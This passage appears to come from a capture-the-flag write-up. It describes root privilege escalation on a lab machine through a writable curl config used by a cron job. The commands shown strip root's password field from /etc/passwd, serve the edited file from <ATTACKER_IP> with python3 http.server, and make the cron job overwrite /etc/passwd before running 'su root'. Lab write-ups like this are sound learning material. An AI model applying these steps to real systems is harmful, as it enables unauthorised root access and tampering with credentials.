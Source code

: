 ```
$ /bin/cat site_check
```

![20d5da6b5c274d710a278ce17708a4c2.png](/resources/676b95507dbc410d8056fefafc952b20.png)

To gain access to the user 'root', we can use this cronjob to overwrite `/etc/passwd` to set a blank password.

First we need to print the contents of `/etc/passwd`:

```
$ /bin/cat /etc/passwd
```

![e2ec15817df61bde4296f60f4d395cf3.png](/resources/9ecfee3bf6b849a1b7cda472a525ef01.png)

Then we copy the contents to a text editor on the attacker machine and delete the `x` character for the users that we want to have blank passwords. The `x` character represents a hashed password in `/etc/shadow` so by removing it we don't need to authenticate with a password at all.

For example the original line `root:x:0:0:root:/root:/bin/bash`  becomes `root::0:0:root:/root:/bin/bash`:

![e2e19b475ccb9a21edfeb0baa716597d.png](/resources/48d9041cf46b44af88270078b83e6deb.png)

Now we host this modified 'passwd' file using `python3` on the attacker machine:

```
$ python3 -m http.server 8888
```

Then on the victim machine, we overwrite `/home/F30s/site_check` using `echo -e` to point to 'passwd' in the `/etc/` directory by changing the `url` parameter to `http://<ATTACKER_IP>:8888/passwd` and output the contents to a new file using `-o /etc/passwd` and `> site_check` to overwrite the current file:

```
$ echo -e 'url = http://<ATTACKER_IP>:8888/passwd\n-o /etc/passwd' > site_check
```

After a minute we should see a request in the terminal running the HTTP server on the attacker machine for the 'passwd' file. This let's us know that the 'passwd' file on the victim machine has been overwritten and now we can switch to the user 'root' using `su`:

```
$ su root
```

![c0a7caafc61c3f7226466e5bb809abf0.png](/resources/d0e2e36240014d46baa539e2223da6e6.png)

Checking `/root/` directory we find the encrypted second flag 'flag2.txt' and 'secret.txt':

![a63f9e5ae1196daff771786c87c0927a.png](/resources/115355a0814044078c9a6bb2dc4b2e48.png)

Looking back at the clue in `/home/ayham/secret-tip.txt`, we get a hint about what the key is:

```
"...Don't forget it's always about root!"
```
